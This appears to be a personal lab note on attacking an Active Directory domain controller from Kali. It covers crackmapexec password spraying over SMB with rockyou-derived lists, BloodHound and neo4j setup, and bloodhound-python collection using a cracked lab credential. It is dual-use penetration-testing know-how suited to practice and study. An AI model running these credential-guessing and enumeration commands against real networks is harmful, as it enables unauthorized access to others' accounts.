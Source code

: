 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  /added random passwords from rockyou.txt into passwords.txt
  /added random users from the user.txt file 

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt

  Continue enumerating even when the user:pass combination has been found for a user
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list
  sudo apt-get update
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' > /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update
  sudo apt-get install apt-transport-https
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound 

  ...Starting bloodhound
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  pip install bloodhound
  added bloodhound-python to the $PATH
  /home/kali/.local/bin 
  subl ~/.zshrc
  source ~/.zshrc
  added /home/kali/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com
  
  To get All 
  loodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
